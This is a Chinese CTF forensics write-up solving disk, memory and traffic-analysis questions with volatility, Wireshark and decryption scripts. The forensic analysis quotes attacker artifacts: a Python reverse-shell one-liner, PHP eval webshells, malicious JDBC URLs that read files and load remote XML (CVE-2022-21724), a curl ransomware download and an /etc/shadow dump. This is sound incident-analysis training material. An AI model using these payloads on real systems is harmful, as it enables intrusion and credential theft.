key.txt内容是`7d9ddff2-2d67-4eba-9e48-b91c26c42337`，因此这道题答案就是**7d9ddff2-2d67-4eba-9e48-b91c26c42337**。

## BF

### baby\_forensics\_1

> 题目内容：磁盘中的key是多少？

题目文件夹内包含两个文件，分别是raw内存镜像，一个是vmdk虚拟机磁盘文件。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213173728-3aeb2986-999b-1.png)  
raw文件可以通过R-Studio和volatility进行分析，vmdk文件通过磁盘挂载或者是R-Studio打开。通过R-Studio发现这个磁盘被BitLocker加密。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213173752-495d21a4-999b-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213173904-743c6218-999b-1.png)  
那么通过[网鼎杯2020的题《密码柜》](https://wgf4242.github.io/ctf/writeup/2020-%E7%BD%91%E9%BC%8E%E6%9D%AF.html)找到BitLocker密码的方法，使用`Elcomsoft Forensic Disk Decryptor`，找到恢复密钥。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213173928-82521b90-999b-1.png)  
之后使用R-studio挂载镜像，使用找到的恢复密钥解开BitLocker。发现里面存在一个文件`key.txt`。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213173950-8ff26764-999b-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174013-9d2ea87a-999b-1.png)  
打开文件发现字符串`E96<6J:Da6g_b_f_gd75a3d4ch4heg4bab66ad5d`，然后最让人无语的地方来了，一直以为是flag，结果还是需要解码，使用随波逐流编码工具进行一键解码。找到是rot47编码：`thekeyis2e80307085fd2b5c49c968c323ee25d5`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174038-ac4faaa2-999b-1.png)  
那么这道题的答案就是**2e80307085fd2b5c49c968c323ee25d5**

### baby\_forensics\_2

> 题目内容：电脑中正在运行的计算器的运行结果是多少？

使用`volatility`将其calc.exe导出,

```plain
python2 .\vol.py -f C:\Users\xxx\Desktop\ljb\BF\baby_forensics_58a2fd5b17eac8108638f334c399de4a\baby_forensics.raw --profile=Win7SP1x64 pslist

python2 .\vol.py -f C:\Users\xxx\Desktop\ljb\BF\baby_forensics_58a2fd5b17eac8108638f334c399de4a\baby_forensics.raw --profile=Win7SP1x64 memdump -p 2844 --dump-dir=./
```

并将其导出的文件更改为.data，使用`GIMP`打开，更改高度和偏移，发现计算器的图片。那么这道题的答案就是**7598632541**  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174105-bc7b93f0-999b-1.png)

### baby\_forensics\_3

> 题目内容：该内存文件中存在的flag值是多少？

先看看有没有存在可疑的进程：

```plain
python2 .\vol.py -f C:\Users\xxx\Desktop\ljb\BF\baby_forensics_58a2fd5b17eac8108638f334c399de4a\baby_forensics.raw --profile=Win7SP1x64 pslist
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174129-cb018dbc-999b-1.png)

存在便签程序，那么使用`filescan`把便签的存在位置找一下，存放便签的后缀是`.snt`，然后将其导出。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174154-d9daeb58-999b-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174215-e622b3f0-999b-1.png)  
之后放到win7便签相应的路径上，可以看到字符串`U2FsdGVkX195MCsw0ANs6/Vkjibq89YlmnDdY/dCNKRkixvAP6+B5ImXr2VIqBSp94qfIcjQhDxPgr9G4u++pA==`。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174236-f2cbd672-999b-1.png)  
这个字符串疑似base64，解密后发现开头是`Salted__`，那么这是通过openssl的aes加密的，但是需要密钥才能解密。因此去R-Studio根据时间顺序寻找一下有没有密钥文件。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174303-03088ddc-999c-1.png)  
可以看到这个`i4ak3y`这个文件名比较可疑，打开看看，里面写的应该就是密钥`qwerasdf`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174321-0d78c8cc-999c-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174341-199e2c28-999c-1.png)

那么解密一下，那么这道题的答案就是**flag{ad9bca48-c7b0-4bd6-b6fb-aef90090bb98}**  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174410-2a78c1f2-999c-1.png)

## TP

### tcpdump\_1

> 题目内容：攻击者通过暴力破解进入了某Wiki 文档，请给出登录的用户名与密码，以:拼接，比如admin:admin

打开流量包，过滤http看看有什么东西，发现`172.31.0.1`对`172.31.0.2`进行了目录扫描，并且服务器给的响应是JSON格式。  
之后还对`http://127.0.0.1:8080/login`进行了爆破，那看看最后一条登录成功的显示是`{"errCode":200}`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174442-3de44842-999c-1.png)

那么应用过滤器`json contains "200"`找到登录成功的响应包  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174503-4a86a432-999c-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174605-6f7fa57c-999c-1.png)  
那么这道题的答案就是**TMjpxFGQwD:123457**

### tcpdump\_2

> 题目内容：攻击者发现软件存在越权漏洞，请给出攻击者越权使用的cookie的内容的md5值。（32位小写）

继续往后看，能够看到cookie键值对有个`userid=2`，这就是当前的权限值。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174631-7e7325f4-999c-1.png)  
寻找看哪个包更改了userid值，可以看到42530包更改了userid为1  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174654-8c3d791e-999c-1.png)  
那么这道题的答案就是**383c74db4e32513daaa1eeb1726d7255**  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174718-9ad72e48-999c-1.png)

### tcpdump\_3

> 题目内容：攻击使用jdbc漏洞读取了应用配置文件，给出配置中的数据库账号密码，以:拼接，比如root:123456

通过题目知道利用jdbc漏洞读取文件，所以就不能光看http的流量，查看TCP的流量。可以看到服务器连接了恶意mysql服务端`jdbc:mysql://116.62.63.234:3307/test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true&maxAllowedPacket=655360` ，并且读取了`/etc/passwd`文件。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174743-a9e0b062-999c-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174809-b902b7a2-999c-1.png)

同样继续往下看，能够看到恶意mysql服务端让服务器读取了`application.yml`，在里面能找到数据库账号密码。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174836-c9136c7c-999c-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174859-d6bc30e8-999c-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213174943-f15b88a4-999c-1.png)  
所以这道题的答案就是**zyplayer:1234567**

### tcpdump\_4

> 题目内容：攻击者又使用了CVE漏洞攻击应用，执行系统命令，请给出此CVE编号以及远程EXP的文件名，使用:拼接，比如CVE-2020-19817:exp.so

可以看下这个POST的数据是`jdbc:postgresql://127.0.0.1:5432/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://116.62.63.234:9988/custom.dtd.xml`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175001-fc1ebe0a-999c-1.png)  
因为`116.62.63.234`就是之前恶意mysql服务端的IP，这个`custim.dtd.xml`的内容里面有个反弹shell的payload  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175021-07f6b318-999d-1.png)  
那么就能确定这是新的攻击方式，经过搜索可知是CVE-2022-21724漏洞，恶意文件就是`custom.dtd.xml`。这道题的答案是**CVE-2022-21724:custom.dtd.xml**

### tcpdump\_5

> 题目内容：给出攻击者获取系统权限后，下载的工具的名称，比如nmap

之前了解到反弹shell的IP是`116.62.63.234`,那么过滤这个IP查看执行的命令，可以看到下载了fscan。那么这道题的答案就是**fscan**。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175038-121c9d94-999d-1.png)

## HD

### hacked\_1

> 题目内容：admIn用户的密码是什么？

过滤http流量，找到注册路由`/register`对于用户名密码的加密方式。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175059-1e8f81fe-999d-1.png)  
利用cyberchef进行解密流量，之后还进行了登录，登录会返回用户名。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175117-29135ec0-999d-1.png)  
通过这种方式定位到admIn用户。然后解密密码即可。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175216-4c72fda8-999d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175233-56885d42-999d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175247-5edff608-999d-1.png)  
这道题的答案就是**flag{WelC0m5\_TO\_H3re}**。

### hacked\_2

> 题目内容：app.config\['SECRET\_KEY'\]值为多少？

继续往下看，可以看到包里的返回内容存在SECRET\_KEY，这道题的答案是**ssti\_flask\_hsfvaldb**  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175308-6b10c2c2-999d-1.png)

### hacked\_3

> 题目内容：flask网站由哪个用户启动？

继续往下看，因为爆出来了SECRET\_KEY，可以把cookie内容解密。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175331-79131bb8-999d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175344-808bec3a-999d-1.png)  
可以看到执行的ssti攻击请求命令`whomai`，返回就是`red`。那么这道题的答案就是**red**。

### hacked\_4

> 题目内容：攻击者写入的内存马的路由名叫什么？（答案里不需要加/）

继续往下看就能看到对于添加路由的代码执行，然后后续也能看到访问了`/Index`，证明添加路由成功。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175408-8eea2ad0-999d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175421-9692218e-999d-1.png)  
那么这道题的答案就是**Index**

# 半决赛

## so\_easy

### so\_easy\_1

> 题目内容：登录的密码是多少，请输入md5加密的32位小写字符串

打开流量包看到是FTP流量，过滤`ftp`找到登录正确的用户名密码  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175804-1bdc464e-999e-1.png)  
这道题的答案就是**md5("test")->098f6bcd4621d373cade4e832627b4f6**

## so\_easy\_2

> 题目内容：被加密的字符串是多少？

继续往下看流量，发现上传了个压缩包`11.zip`，这个先保存好，第三题会用到。后面上传了`private_key.pem`和`public_key.pem`，这两个文件内容分别是私钥和公钥。  
又上传了个`py.txt`文件，是个加密函数的python脚本。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175823-26eba58e-999e-1.png)  
最后上传了`encrypted.txt`文件，这个就是加密后的文件。  
那么根据提示就能做解密这个文件，用cyberchef解密一下。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175838-3041f142-999e-1.png)  
所以这道题的答案是**8dhn3edfna93rAPN**

## so\_easy\_3

> 题目内容：图片中隐藏的数字是多少？

之前说有个压缩包11.zip，解压出来是个bmp图片，打开发现图片不完整。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175913-451a1040-999e-1.png)  
修复一下图片，这道题答案就是**20230101**  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175926-4cd8e7b6-999e-1.png)

## session

### session-1

> 题目内容：通过注入得到的username是？

根据题目直接过滤`http`，又是老生常谈的先扫目录。后面能看到对于`/upload`的POST请求，对file参数进行SQL注入。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175943-56957fda-999e-1.png)  
了解了一下大概的请求过程，确定注入的流量包序号范围，先确定这是一个盲注，注入成功是回显`上传失败`，注入成功回显是`上传成功`。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213175955-5e005592-999e-1.png)  
写个脚本跑一下，脚本如下：

```plain
# extract_pcap.py  v1.1
import pyshark

pcap = pyshark.FileCapture(
    "ss.pcapng", display_filter="http.request.uri==\"/upload\" or http.response.code == 200", tshark_path=R"D:\whitehat\tools\Wireshark\tshark.exe")

HTTPchat = {"req": {}, "res": {}}  # 创建请求和响应的字典


def get_file_data(pkt):  # 获取file_data
    Data = None  # 初始化Data
    if int(pkt.http.content_length) == 0:  # 检测是否有file_data
        return None
    if int(pkt.http.content_length) != len(pkt.http.file_data):  # 检测file_data内容是否完整
        reassmbledData = pkt.DATA.tcp_reassembled_data.binary_value if (
            "DATA" in pkt) else pkt.TCP.payload.binary_value
        Data = reassmbledData[reassmbledData.decode().find(
            "\r\n\r\n")+4:]
        if int(pkt.http.content_length) == len(Data):  # 这段可以不用加，一般情况下都是完整的
            # 在这里处理请求最后保存的数据
            Data = Data.splitlines()[3]
    else:
        Data = pkt.http.file_data  # 这里处理请求最后保存的数据
        Data = Data.splitlines()[3]

    return Data.decode()


def get_resp_data(pkt):
    # 这里处理响应的内容
    result = None  # 初始化Data
    if int(pkt.http.content_length) == 0:  # 检测是否有file_data
        return None
    if int(pkt.http.content_length) != len(pkt.http.file_data):  # 检测file_data内容是否完整
        reassmbledData = pkt.DATA.tcp_reassembled_data.binary_value if (
            "DATA" in pkt) else pkt.TCP.payload.binary_value
        result = reassmbledData[reassmbledData.decode().find(
            "\r\n\r\n")+4:]
        if int(pkt.http.content_length) == len(result):
            # 在这里处理响应最后保存的数据
            if "上传成功".encode() in result:
                result = 0
            else:
                result = 1

    return result


for pkt in pcap:
    if int(pkt.number) < 8231:
        continue
    if int(pkt.number) > 26584:
        break
    if pkt.http.chat.split(" ")[0] in ["GET", "POST"]:  # 检测是否是请求
        HTTPchat["req"][pkt.number] = get_file_data(pkt)
    if pkt.http.chat.split(" ")[0] in ["HTTP/1.1"]:  # 检测是否是响应
        HTTPchat["res"][pkt.http.request_in] = get_resp_data(pkt)

# 寻找响应=1的请求
for key in HTTPchat["res"]:
    if HTTPchat["res"][key] == 1:
        print(key, HTTPchat["req"][key])
```

脚本把所有响应是`上传失败的`的跑出来，得到的结果是用户名为`adminadmin111`，密码是`123456asdf`。  
这道题的答案就是**adminadmin111**

### session-2

> 题目内容：除了root用户，还有哪个用户含有root权限。

再往下看就是命令执行，能够看到读取了`/etc/passwd`。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180048-7dac9c2a-999e-1.png)  
可以看到`test`用户的第三列是0，那么这道题的答案就是**test**。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180102-85ddae02-999e-1.png)

### session-3

> 题目内容：通过debug读取的哪个文件没有找到（绝对路径）？

这个session-3和session-2，个人觉得这个应该是写反了，因为这个session-3的答案是在session-2之前。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180135-99cb3dda-999e-1.png)  
可以看到命令执行首先读取了`/etc/1`，返回结果报错没有这个文件，因此这道题的答案就是 **/etc/1**。

### session-4

> 题目内容：通过什么命令反弹的shell，提交md5加密的32位小写字符串。

在流量的最后面，可以看到分别用了三种方式反弹shell，`/bin/sh`，`nc`和`python pty`方式。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180149-a1ce8618-999e-1.png)  
但是只有最后一种方式反弹成功，其余两种都报了语法错误。具体命令是

```plain
import os,pty,socket;s=socket.socket();s.connect(("172.16.127.1",3333));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180205-aba47da0-999e-1.png)  
所以这道题答案是**7b75e76b64a25bd3d04ea82880c6d462**

## easy\_shiro

### easy\_shiro-1

> 题目内容：shiro key是什么?

这道题给了日志文件，可以看到经典的shiro特征，`rememberMe=deleteMe;`。shiro攻击就是反序列化，反序列化肯定包含`java`这个关键字。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180228-b9681f78-999e-1.png)  
通篇找下来没有发现key，那就只剩爆破的方法了。结果还没有shiro的密码本，正在一筹莫展的时候发现`fscan`有一个`shiro-key.yml`。里面存放着一些常用的shiro key。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180240-c035187e-999e-1.png)  
并且还有一个go写的加密脚本，依葫芦画瓢写了个python的解密脚本。这方面解密还参考了这篇文章[Shiro反序列化分析带思路及组件检测笔记](https://xz.aliyun.com/t/8997#toc-1)

```plain
from Crypto.Cipher import AES
import base64

with open("key.txt") as f:
    key = f.readlines()
    key = [x.strip() for x in key]
    f.close()

encrypted = "Iz28dfd1...." # 寻找到响应状态200的请求，找到rememberMe的值
encryptedDecode = base64.b64decode(encrypted)

for k in key:
    kDecode = base64.b64decode(k)
    cipher = AES.new(kDecode, AES.MODE_CBC)
    decrypted = cipher.decrypt(encryptedDecode)
    if b"java" in decrypted:
        print(k)
        print(decrypted.decode("utf-8", errors="ignore"))
        break
```

因此这道题答案就是**4AvVhmFLUs0KTA3Kprsdag==**

### easy\_shiro-2

> 题目内容：溯源攻击者的操作，其中有flag。

当时做这个题的时候没有思路，我先想的是先把所有的能base64解码的全部解码了，然后看看有什么特征注意的。发现倒数第二条数据POST一个`user`键值，于是解码发现是`java class`文件。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180311-d2cfdeec-999e-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180324-da4d43e4-999e-1.png)  
反编译发现是冰蝎马。那么把最后一条POST上去的数据解密看看。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180336-e19db84a-999e-1.png)  
可以看到flag，但是交到第二题答案不对。那么肯定第二题答案就在前面两条数据里。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180354-ec405316-999e-1.png)  
前面两条唯一有用的就是`rememberMe=...;`。把之前的解密的序列化数据保存好，命名为`decrypted_1`。跟之前`user`的class文件做一下对比，发现文件头不一样并且开头是`AC ED`（**后续赛题复盘学习了下shiro关于cookie生成的流程，改了下之前代码的iv，具体流程查看第一篇参考文献**），并且发现这是java序列化后的开头标识符。具体的序列化格式可以参考这篇文章[SerializationDumper辅助研究ysoserial URLDNS反序列化原理](https://xz.aliyun.com/t/8686)。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180409-f58e9978-999e-1.png)

当时比赛是想的是你想执行代码，肯定是class形式的，那么直接找文件头看看有没有，就把`user`的class文件头`CA FE BA BE`拿过来在`decrypted_1`文件里面找，发现还真有。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180502-150ad424-999f-1.png)  
于是把`CA FE BA BE`之后都复制出来，重命名为class文件放到IDEA里面反编译，一眼就能看到不一样的东西。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180519-1f06a782-999f-1.png)

于是把这个数组运算用python写一下。返回的结果是`cmd.exe /C "echo flag{6dfdc384d6025b2ab9b71ec15971aa11}"`

```plain
var21 = [118, 120, 113, 59, 112, 109, 112, 53, 58, 86, 53, 55, 112, 118, 125, 122, 53, 115, 121, 116, 114, 110, 35, 113, 115, 113,
         118, 38, 45, 33, 113, 35, 37, 39, 32, 119, 39, 116, 119, 44, 119, 34, 36, 112, 118, 36, 32, 44, 34, 36, 116, 116, 36, 36, 104, 55]
var22 = []

for i in var21:
    var22.append(chr(i ^ 21))

print("".join(var22))
```

于是这道题的答案是**flag{6dfdc384d6025b2ab9b71ec15971aa11}**

### easy\_shiro-3

> 题目内容：攻击者植入了内存webshell,使用这个webshell做了什么，其中有flag

由第二题解题过程中可得，这个是第三题的答案**flag{1198be3b489ae0ddf88d0e6733e88fa6}**

# 决赛

## win

### win-1

> 题目内容：小明在一台电脑中获取了一个虚拟机文件以及桌面上存有rockyou.txt，打开虚拟机的密码是多少？

这个题打开`vmx`文件就能看到这就是上一届陇剑杯出过的虚拟机加密的题目[2021陇剑杯-机密内存-解题过程分析](https://xz.aliyun.com/t/10284)。首先需要解密虚拟机，需要用的工具是[`pyvmx-cracker`](https://github.com/axcheron/pyvmx-cracker)。但是会发现解密不了，对照了一下去年的原题，发现`vmx`文件多了个`encryptedVM.guid = ""`，删除掉这一行就能解密了。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180541-2bf47a64-999f-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180556-353902ca-999f-1.png)  
密码是`somewhere`，因此这道题的答案就是**somewhere**。  
（当时做这道题的时候，根据题目提示直接从kali里面找`rockyou.txt`,当时就用134M的密码本跑，结果给跑出来了，没想到最后是主办方给的密码本。）  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180612-3e96bd76-999f-1.png)

### win-2

> 题目内容：xshell链接的密码是多少？

通过自己本地电脑找到的xmanager存放的数据文件夹位置`C:\Users\xxx\Documents\NetSarang Computer\7`，同样能够在虚拟机里找到，版本是xshell6。  
[](https://xz.aliyun.com/t/2023%E9%99%87%E5%89%91%E6%9D%AF%E7%BA%BF%E4%B8%8B%E8%B5%9BWP/2023-12-11-14-47-12.png)  
打开`Sessions`文件夹发现有一个`新建会话.xsh`文件，里面存放的就是ssh的连接信息。在这里面能够看到加密后的密码，具体xshell对于保存的ssh密码进行加密的流程在这里[How does Xmanager encrypt password?](https://github.com/HyperSine/how-does-Xmanager-encrypt-password/blob/master/doc/how-does-Xmanager-encrypt-password.md)。使用脚本进行解密最后结果是`123456a`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180631-4a2bfa66-999f-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180651-55c1cb62-999f-1.png)  
因此这道题的答案是**123456a**。

### win-3

> 题目内容：总共访问了几次 www.baidu.com?

打开原生的IE浏览器，没有发现有相关的历史记录。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180722-6831c2ca-999f-1.png)  
打开火狐浏览器，寻找历史记录打开访问次数列。可以看到访问10次www.baidu.com。所以这道题答案就是**10**。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180733-6edad1b6-999f-1.png)

## mid

### mid-1

> 题目内容：从哪个文件中获得到后台的用户名密码？

打开流量包，过滤器`http.response.code != 404`，过滤掉那些404的请求，可以看到有个`robots.txt`，里面有一串base64，解码后发现是用户名密码。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180753-7af59314-999f-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180803-811aa4e6-999f-1.png)  
因此这道题的答案就是**robots.txt**。

### mid-2

> 题目内容：admin的密码通过哪个函数进行加密存储，答案示例 exec()。

刚开始我以为是前端加密，疯狂寻找没有找到有用的。所以重点查看后面执行命令的地方。可以看到写入文件`.1ndex.php`的命令。但是访问这个文件发现没有权限。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180833-92b1cdc4-999f-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180849-9c680f04-999f-1.png)  
于是重新了个文件是`1ndex.php`，并且成功访问此文件。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180903-a4d9f4ea-999f-1.png)

写入的文件内容是

```plain
<?php eval($_POST[hi]); ?>
```

于是后面的代码执行就顺理成章。发现后面对一些php文件进行有导出成txt的操作。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180918-ad90d6bc-999f-1.png)  
看到4.txt，就是`Authentication.php`的代码内容，可以看到代码注释是`Create password hash from plaintext password.`。加密函数用的是`password_hash`。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180932-b5931f82-999f-1.png)  
那么这道题的答案就是**password\_hash**

### mid-3

> 题目内容：写入的第一次的shell的连接密码是多少？

在上题说过，第一次写入文件是`.1ndex.php`，把写入的文件内容找到。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180945-bd567732-999f-1.png)  
解码后内容是`<?php eval($_POST[1]); ?>`，因此这道题的答案就是**1**。

## mid-4

> 题目内容：用户 hack 的密码是多少？

后面`POST /1ndex.php`，进行代码执行。解码后分析一下上传的代码，主要看输出的地方，可以看到输出缓冲区的内容被rot13编码了，并且头和尾增加了脏数据。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213180958-c577b05c-999f-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213181009-cbe9c2e0-999f-1.png)  
继续往下看，找到这条流量，分析代码，找到执行命令的位置。把base64去除前两位，解码就可以看到执行`cd "/var/www/html";cat /etc/shadow;echo bdfbedc;pwd;echo fdc4afba5b`。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213181023-d437c668-999f-1.png)  
找到关于`hacker`的shadow信息，`hack:$6$scJ3Xg1qPInqVVtG$JafeFeTcqSBmXTcbNAoGSyt4TkvZpvwLhLy89FM9c1fakLdkywf5eLzuFledt01PpOXncSUCHrW83PJ0VLC370:19586:0:99999:7:::`。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213181035-db7c750e-999f-1.png)  
使用john进行破解，所以这道题的答案就是**qwerty**  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213181047-e28888b0-999f-1.png)

## ransom

### ransom-1

> 题目内容：攻击者通过后门在受害机器上安装了勒索病毒，给出勒索病毒文件的sha256(大写)(注:该文件建议在虚拟机中打开)

过滤HTTP之后，通过后门进行命令执行。可以看到执行命令`dir`，返回结果如下  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213181109-ef7fc146-999f-1.png)  
继续往下看，发现执行了一个curl命令`curl 192.168.204.1:8000/test.exe --output test.exe`。并且后续执行此exe，对某些文件进行了加密操作，因此这个`test.exe`就是勒索病毒。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213181121-f69709c6-999f-1.png)  
所以这道题的答案就是**223EA13EFD517D185708AFF1DA8B9CBBD9D1B97D1CB3E7B9107CDA2FFCB599C9**

### ransom-2

> 题目内容：勒索病毒对本地文件继续了加密，给出加密文件的数量

上道题可以看出，运行`test.exe`，会将`secret.txt`加密成`secret.txt.enc`。但是用http继续过滤时没有发现相关的流量，就很奇怪。于是把过滤器清空，发现有一段TCP流量，但是没有转换成HTTP。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213181137-00a8a8b6-99a0-1.png)  
于是追踪TCP流，可以看到总共是133个文件被加密。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213181150-07d23260-99a0-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231213181203-0febd28a-99a0-1.png)  
所以这道题的答案就是**133**。

### ransom-3

> 题目内容：恢复被加密的secret.txt的内容

流量中发现读取了`e:\tmp.txt`，也读取`secret.txt.enc`。其中的细节需要逆向分析，这方面等有所成之后再来细究一下。
